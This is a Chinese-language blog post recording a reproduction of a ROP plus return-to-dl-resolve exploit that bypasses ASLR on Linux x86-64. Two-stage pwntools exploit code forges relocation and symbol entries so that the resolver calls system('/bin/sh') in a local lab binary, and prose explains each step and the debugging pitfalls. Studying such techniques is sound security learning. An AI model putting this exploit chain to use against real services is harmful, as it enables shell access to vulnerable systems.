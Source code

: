 ```yaml
---
layout: post
title: 系统中使用ROP+Return-to-dl实现ASLR
description: "学习复现Return-to-dl的记录"
category: scanner
tags: [exp, aslr, rop]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```



# 在linux x86-64 系统中使用ROP+Return-to-dl实现ASLR bypass

### 背景

在学习复现ROP+Return-to-dl漏洞利用的过程中，踩了几个坑。将一些技术点记录下来，避免以后再次进坑。

### Return-to-dl利用方式

Return-to-dl是一种用来绕过ASLR的有效方式。这种方式不需要获取glibc并计算偏移地址，因此在一些无法本地调试的远程利用中非常好用。

此前，已经有很多人对该利用方式进行了解释[^1]。这里，我们根据这篇paper[^2]做实际复现。

<!--more-->

[^1]: <http://skysider.com/?p=416>

[^2]: <http://www.freebuf.com/articles/system/149364.html>

### 利用代码原理解释

这里，我们跳过前期的基础知识讲解，直接分析这篇paper中的利用代码。

* 各类ELF格式基础地址信息配置

{% highlight python %}

offset = 120

addr_write_got = 0x000000601018
addr_read_got = 0x000000601020
addr_bss = 0x0000000000601040
addr_relplt = 0x4003a0
addr_got = 0x0000000000601000
addr_plt = 0x400420
addr_write_plt = 0x400430
addr_read_plt = 0x400440
addr_dynsym = 0x00000000004002b8
addr_dynstr = 0x0000000000400330

addr_pop_rbp = 0x00000000004004d0
addr_pop_rdi = 0x0000000000400571
addr_pop_rdx = 0x0000000000400579
addr_pop_rsi = 0x0000000000400573
addr_leave_ret = 0x00000000004005c8

stack_size = 0x800
base_stage = addr_bss + stack_size


{% endhighlight %}

通过readelf、ROPgadegt、GDB等工具，获取ELF各类段地址、GOT、PLT地址、ROP代码地址，并配置到代码中。这里的offset指的是填充buffer的长度，可以通过peda、ROPutil等工具获取。base_stage为构造堆栈数据的写入地址。

* 第一阶段ROP代码

{% highlight python %}

buf1 = "A" * offset
buf1 += p64(addr_pop_rdi)
buf1 += p64(1)
buf1 += p64(addr_pop_rsi)
buf1 += p64(addr_got + 8)
buf1 += p64(addr_pop_rdx)
buf1 += p64(8)
buf1 += p64(addr_write_plt)
buf1 += p64(addr_pop_rdi)
buf1 += p64(0)
buf1 += p64(addr_pop_rsi)
buf1 += p64(base_stage)
buf1 += p64(addr_pop_rdx)
buf1 += p64(200)
buf1 += p64(addr_read_plt)
buf1 += p64(addr_pop_rbp)
buf1 += p64(base_stage)
buf1 += p64(addr_leave_ret)

p = process("./bof")

p.send(p64(len(buf1)))
p.send(buf1)
print "[+] read: %r" % p.recv(len(buf1))
addr_link_map = u64(p.recv(8))
print "[+] addr_link_map = %s" % hex(addr_link_map)

{% endhighlight %}

这段ROP的意图如下，第一步输出GOT表地址+8的数值，也就是link_map的起始地址。打印这个地址的目的在于，我们需要更改link_map+0x1c8处的值为0，以便于构造fake Elf64_Sym。
随后，读取长度为200的用户输入，并存储到base_stage地址。最后将rbp设置为base_stage地址，并执行return过程。在完成该过程后，栈顶指针rsp将指向base_stage地址+8处。

* 第二阶段ROP代码构造准备

{% highlight python %}

addr_reloc = base_stage + 112
reloc_offset = (addr_reloc - addr_relplt) / 0x18
reloc_offset = reloc_offset - 1
r_offset = addr_write_got
r_addend = 0
addr_sym = addr_reloc + 24
padding_dynsym = 0x18 - ((addr_sym-addr_dynsym) % 0x18)
addr_sym += padding_dynsym

addr_symstr = addr_sym + 24

r_info = (((addr_sym - addr_dynsym) / 0x18) << 0x20) | 0x7
cmd = "/bin/sh"
addr_cmd = addr_symstr + 7
st_name = addr_symstr - addr_dynstr

{% endhighlight %}

这里是遇到大坑的一个地方，细心观察这段代码，可以发现和原文中的代码存在区别。这是因为在构造fake Elf64_Sym时，代码考虑了padding补齐。但是在构造fake Elf64_Rela时，代码硬编码了偏移值120。

由于不同的系统bss段、relplt段都存在区别，因此在计算reloc_offset时，不一定能够被0x18整除，造成不能获取正确的fake Elf64_Rela。这里需要和后面构造fake Elf64_Sym一样，进行padding补齐。由于进入了gdb进行调试，因此这里就直接硬编码适合自己的偏移值112了。

当无法获取正确的fake Elf64_Rela时，报出的错误为：Assertion 'ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT' failed!
我们可以在gdb中设置断点_dl_fixup+78，观察RCX的值是否为0x7来进行确认。

在完成相关地址变量的计算后，我们可以开始构造第二阶段ROP的代码

* 第二阶段ROP代码解释

{% highlight python %}

buf2 = "A" * 8
buf2 += p64(addr_pop_rdi)
buf2 += p64(0)
buf2 += p64(addr_pop_rsi)
buf2 += p64(addr_link_map + 0x1c8)
buf2 += p64(addr_pop_rdx)
buf2 += p64(8)
buf2 += p64(addr_read_plt)
buf2 += p64(addr_pop_rdi) # system args
buf2 += p64(addr_cmd)
buf2 += p64(addr_plt)
buf2 += p64(reloc_offset)
buf2 += "A" * (120 - len(buf2))
buf2 += p64(r_offset)    # Elf64_Rela
buf2 += p64(r_info)
buf2 += p64(r_addend)
buf2 += "A" * padding_dynsym
buf2 += p32(st_name)     # Elf64_Sym
buf2 += p32(0x00000012)
buf2 += p64(0)
buf2 += p64(0)
buf2 += "system\x00"
buf2 += cmd + "\x00"
buf2 += "A" * (200 - len(buf2))

{% endhighlight %}

第二阶段ROP代码的执行步骤如下，首先更改link_map+0x1c8处的值为0，否则在解析fake Elf64_Sym时会引发一个段错误，导致exp无法正常运行。

随后，将参数"/bin/sh"写到rdi寄存器，并进入dl_resolve阶段。在dl_resolve过程中，通过reloc_offset参数，将解析的数据地址设置到可控的base_stage。并通过构造fake Elf64_Rela和fake Elf64_Sym让dl_resolve过程加载system函数到addr_write_got。此时，寄存器rdi中的参数"/bin/sh"被当做system函数的输入值，完成了getshell的过程。

### 学习心得

Return-to-dl漏洞利用方式需要对ELF格式、ELF动态加载机制有深入的基础知识储备。这样在理解漏洞利用代码时，才能明白每个步骤的目的和原理。这些基础知识也可以参考这篇文章来进行学习[^3]。

<!--more-->

[^3]: <http://pwdme.cc/2017/09/26/lazy-binding-in-detail/>
